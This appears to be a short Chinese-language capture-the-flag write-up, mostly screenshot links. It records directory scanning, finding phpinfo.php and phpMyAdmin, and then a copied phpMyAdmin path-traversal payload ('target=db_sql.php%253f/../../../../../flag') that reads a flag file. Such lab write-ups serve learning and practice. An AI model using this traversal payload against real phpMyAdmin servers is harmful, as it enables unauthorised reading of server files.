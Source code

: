 ![[Pasted image 20221125210719.png|800]]

---
首页长这样

![[Pasted image 20221125210651.png|800]]

`dirsearch`扫到了`robots.txt`

![[Pasted image 20221125220315.png]]

![[Pasted image 20221125211153.png|800]]

访问`/phpinfo.php`

![[Pasted image 20221125211604.png]]

宁就是`webmaster`嘛www

既然他说和数据库有关，那就记一下叭（虽然不知道有什么用）

![[Pasted image 20221125211941.png]]

---
还有一个`phpmyadmin`扫到了，不知道是啥

![[Pasted image 20221125220518.png]]

emmm没有思路，看看版本号蛮可疑的

![[Pasted image 20221125220708.png]]

![[Pasted image 20221125221044.png]]

![[Pasted image 20221125221327.png]]

看不懂，但能抄.jpg（脚本小子实锤）

```php
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../flag
```
![[Pasted image 20221125222248.png]]

#Web #PHP #目录扫描 #phpmyadmin #Vulnerabilities #信息检索